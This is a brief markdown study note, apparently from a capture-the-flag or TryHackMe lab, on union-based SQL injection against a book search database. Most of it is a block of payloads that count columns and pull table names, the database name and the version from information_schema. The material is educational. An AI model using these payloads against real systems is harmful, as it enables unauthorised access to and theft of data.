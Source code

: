 ### N o T e S

---

Sometimes, we are given a database and not a login portal which is vulnerable to SQLi.

- Use of `UNION` operator.
- Use of `AS` keyword. --> It renames a coloumn or table of the query result.

### Example : Book Search database

Example of Sqli in database : 

```sql
Feeling%' UNION SELECT NULL NULL NULL --

https://website.thm/article?id=0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'

0 UNION SELECT 1,2,database()

1 UNION SELECT @@VERSION, @@VERSION, @@VERSION, @@VERSION
1 UNION SELECT NULL, NULL, NULL, NULL
```
